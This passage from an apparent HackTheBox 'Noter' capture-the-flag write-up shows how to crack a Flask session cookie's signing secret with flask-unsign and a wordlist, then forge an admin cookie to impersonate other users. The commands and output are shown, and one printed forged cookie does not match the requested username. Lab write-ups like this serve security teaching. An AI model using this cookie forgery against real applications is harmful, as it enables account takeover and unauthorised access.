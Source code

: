 When we log in, we get a session cookie and we know that there is `werkzeug`, which uses `Flask` for cookies. We can decode that cookie to see what does it provide. I used [this site](https://www.kirsle.net/wizards/flask-session.cgi) here.

![Session cookie](/assets/hackthebox/noter/session_cookie.png)



We can try to change the username in cookies. To do that we have to know that Flask also `signs` cookies with secret. We can brute-force it with `flask-unsign` tool. You can install it with `pip`.

```zsh
$ flask-unsign --wordlist ~/tools/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.Yt9Qfw.S3EXih7rCwp2detNid8qx8JO3Xk' --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'test'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17536 attempts
b'secret123'
```

We got the secret key! Now we can create a new cookie to access other users.

```zsh
$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidXNlciJ9.Yt9UHg.786sxVinwhrAexXrV0tdz4-W1ro
```

Now we change the cookie in our browser. To do that you have to open storage and modify the session cookie.

![Logged in as admin](/assets/hackthebox/noter/web_admin.png)
